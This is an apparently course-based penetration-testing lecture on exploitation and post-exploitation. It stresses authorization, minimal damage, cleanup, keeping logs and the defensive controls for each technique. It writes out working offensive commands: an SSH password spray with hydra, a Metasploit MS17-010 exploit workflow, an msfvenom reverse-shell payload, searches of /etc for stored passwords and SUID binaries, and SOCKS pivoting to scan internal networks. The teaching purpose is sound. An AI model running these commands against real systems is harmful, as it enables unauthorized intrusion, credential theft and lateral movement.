

# Exploitation and Post-Exploitation

Exploitation turns a candidate weakness into a demonstrated fact. Post-exploitation answers the
question the client actually cares about: so what? A shell on a host in a DMZ is a technical
curiosity. A shell on a host in a DMZ that leads to the customer database is a business problem.

Everything in this lecture assumes the written authorization from lecture 2 and the explicit
permission to exploit rather than merely verify. Exploitation can break things. Some of the
techniques below are simply not run in production environments, and the report says so instead.

## What Exploitation Means in a Test

The goal is proof with the least possible damage. In order of preference:

1. **Read-only proof.** Show that an authentication check can be bypassed by retrieving one record
   you were not entitled to. No writes, no persistence.
2. **Code execution proof.** Execute `id` or `whoami` and capture the output. That is sufficient to
   establish remote code execution; you do not need a full interactive session to prove it.
3. **Interactive session.** Needed when the next question requires exploring the host.

Memory-corruption exploits, kernel exploits and anything described as unreliable belong in a lab
first. "I crashed the domain controller" is a conversation nobody wants to have, and it ends the
test window early.

## Exploit Classes

- **Remote service exploits.** A network-facing service mishandles input. Historically the classic
  case; the well-known SMB vulnerability family addressed by Microsoft bulletin MS17-010 is the
  standard teaching example, and the matching lab target is Metasploitable or an intentionally
  unpatched Windows image.
- **Web application exploits.** Injection, file upload leading to execution, server-side request
  forgery, deserialization. Covered in Module 04.
- **Credential attacks.** Default credentials, password reuse, password spraying, and relaying
  authentication rather than cracking it.
- **Client-side exploits.** A user opens a document or visits a page. In a test this is normally
  the social engineering component, and it needs its own explicit permission because it targets
  people.
- **Misconfiguration chains.** No single bug, but a writable share plus a scheduled task plus a
  service account with too many rights. These are the findings clients learn the most from, and
  automation never produces them.

### Credential attacks in practice

Password spraying, meaning one or two likely passwords against many accounts, is far more
effective than brute-forcing one account, and far less likely to trip lockout policies. That
asymmetry is itself the reason lockout alone is an insufficient control.

```bash
# Against YOUR OWN lab service only. Low rate, small password list, named user list.
hydra -L users.txt -p 'Spring2024!' -t 4 ssh://10.10.1.20
```

Rate limiting matters for two reasons: you avoid locking out real staff, and a slow spray is what
a real attacker does, so testing it tests the detection that matters.

## Metasploit Framework

Metasploit is a module library plus a payload generator plus a session manager. Learning the
workflow is worth more than memorizing module names.

```bash
msfconsole -q
```

```text
msf6 > search type:exploit smb
msf6 > use exploit/windows/smb/ms17_010_psexec
msf6 exploit(...) > info
msf6 exploit(...) > show options
msf6 exploit(...) > set RHOSTS 10.10.1.30
msf6 exploit(...) > set LHOST 10.10.1.5
msf6 exploit(...) > check
msf6 exploit(...) > exploit
```

`info` and `check` are the two commands beginners skip. `info` tells you what the module does and
how reliable it is; `check` tests whether the target appears vulnerable without firing the
exploit. Run both before `exploit`, every time.

Session handling:

```text
msf6 > sessions -l              # list sessions
msf6 > sessions -i 1            # interact
meterpreter > getuid
meterpreter > sysinfo
meterpreter > background
```

Payloads can be generated standalone, which is how you get a payload into a target through a
delivery path that is not a Metasploit exploit module:

```bash
# A reverse TCP payload for a Linux lab target
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.1.5 LPORT=4444 -f elf -o /tmp/lab-payload
```

### Shells: bind versus reverse

A **bind shell** listens on the target and you connect to it. Simple, and almost always blocked by
an inbound firewall rule. A **reverse shell** connects from the target back to you, which defeats
inbound filtering because the connection is outbound.

```text
   bind shell                        reverse shell
   ----------                        -------------
   tester  --- connect --->  target  tester  <--- connect --- target
   target listens on :4444           tester listens on :4444
```

This is why **egress filtering** is a control and not a nuisance. A server that may only reach the
package mirror and the log collector cannot call home, and a large fraction of exploitation chains
stop at that point. A report that demonstrates a reverse shell should name egress filtering as the
remediation alongside the patch.

## Post-Exploitation

Four questions, in order.

### 1. Where am I?

```bash
id
hostname
ip addr
cat /etc/os-release
ps aux --sort=-%cpu | head -20
ss -tulpen
```

Record this immediately. It is both your orientation and your evidence that the compromise
happened.

### 2. Can I become root or SYSTEM?

Privilege escalation is covered in depth in Module 11 for Linux. The categories to check:

- Kernel and service versions with known local escalation issues
- `sudo` rules that permit a command which can spawn a shell or read arbitrary files
- SUID binaries that were not intended to be SUID
- World-writable files or directories in a path that a privileged process uses
- Credentials in configuration files, shell history, environment variables, backup files
- Scheduled tasks and cron jobs running as root from a writable script

```bash
sudo -l
find / -perm -4000 -type f 2>/dev/null
grep -rI --exclude-dir=proc -lE 'password|secret' /etc 2>/dev/null | head
```

Enumeration scripts such as `linpeas.sh` and the Windows equivalents automate this checklist.
Understand what each check means; a script's output is useless if you cannot say why a line
matters.

### 3. What else can I reach?

This is the part that produces the finding that changes architecture.



Pivoting means using the compromised host as a route into networks your machine cannot reach.

```bash
# SSH dynamic port forward: a local SOCKS proxy routed through the compromised host
ssh -D 1080 user@10.10.1.20

# Then send tools through it
proxychains nmap -sT -Pn -p 445,3389 10.10.9.0/24
```

Metasploit offers the same thing through its routing table and a SOCKS proxy auxiliary module, and
`chisel` is the common choice when only outbound HTTP is permitted.

The findings this phase produces are usually about segmentation and credential hygiene rather than
about software bugs:

- The DMZ host could open arbitrary connections into the internal network
- A local service account password was reused on servers in a different trust zone
- A domain user could enumerate the whole directory, revealing every path to privilege

Directory enumeration and attack-path mapping tools such as BloodHound exist because in a Windows
domain the shortest path to Domain Admin is a graph problem, not an exploit problem.

### 4. What is the actual impact?

State it in the client's terms. Not "obtained NT AUTHORITY\\SYSTEM on SRV-APP-02" but "from an
unauthenticated position on the internet, we reached the database holding all customer records and
could read, modify or delete them."

## Persistence, Cleanup and Logging

- **Persistence is usually out of scope.** It adds risk, it is what gets a tester mistaken for an
  intruder, and a test rarely needs it. If persistence is in scope, every mechanism installed must
  be listed in an artifacts table in the report.
- **Clean up and document.** Remove uploaded files, added accounts, modified configuration. List
  every change you made with timestamps, even the ones you reverted, so the blue team can
  reconcile their alerts afterwards.
- **Never clear logs.** Deleting logs in a penetration test destroys the client's ability to
  investigate and may itself be a criminal offence under StGB §126a. If part of the test is to
  show that log tampering is possible, demonstrate the permission and stop there.
- **Data handling.** Prove access to sensitive data without copying it. A screenshot of a row count
  and a redacted single record is proof; a dump of the table is a GDPR problem you created.

## The Defensive View

For each technique above, the control that breaks it:

| Technique                         | What stops it                                         |
| --------------------------------- | ----------------------------------------------------- |
| Remote service exploit            | Patching, reduced exposure, network allow-listing      |
| Reverse shell                     | Egress filtering, DNS and proxy allow-listing          |
| Password spraying                 | MFA, slow-spray detection, breached-password blocking  |
| Credential reuse across zones     | Unique per-host credentials, LAPS-style rotation       |
| Pivoting from DMZ to internal     | Network segmentation with default-deny between zones   |
| Privilege escalation              | Patching, least privilege, auditing sudo and SUID      |
| Lateral movement with local admin | Tiered administration, no shared local admin passwords |
| Persistence                       | Endpoint detection, configuration baselining, logging  |

The pattern worth teaching: exploitation needs one bug, and post-exploitation needs the absence of
several controls. Clients can rarely fix all their bugs, but they can almost always add
segmentation and egress filtering, and those cut off whole categories of outcome.

## Exercises

In your own lab, against machines you own, or on an authorized training platform.

1. Exploit a known-vulnerable lab image with Metasploit. Run `info` and `check` first and record
   what each told you before you fired the exploit.
2. Establish a reverse shell, then add an egress rule on the lab target that only permits outbound
   traffic to one address. Confirm the reverse shell no longer works and write the two-line finding
   you would give the client.
3. Build a two-segment lab, compromise the host in the first segment, and reach a service in the
   second one through a SOCKS proxy. Document the route.
4. Write an artifacts table for the exercise above: every file you wrote, account you created and
   setting you changed, with timestamps.

## Key Takeaways

- Prove with the least damage that establishes the point. `id` is often enough.
- `info` and `check` before `exploit`, always.
- Reverse shells beat inbound firewalls, which is exactly why egress filtering is a high-value
  control.
- Post-exploitation findings are usually about segmentation and credential reuse, not about bugs.
- Translate impact into the client's language: data, money, availability, obligations.
- Never clear logs. Document every artifact and change, including the ones you reverted.
- Prove access to data without copying it; the GDPR applies to the tester too.

## Resources

- [Metasploit Framework documentation](https://docs.metasploit.com/)
- [MITRE ATT&CK: lateral movement and privilege escalation tactics](https://attack.mitre.org/tactics/enterprise/)
- [GTFOBins](https://gtfobins.github.io/)
- [PTES post-exploitation](http://www.pentest-standard.org/index.php/Post_Exploitation)
- Module 01: Ethics and Legal; Module 04: Web Security; Module 11: Linux and Server Security
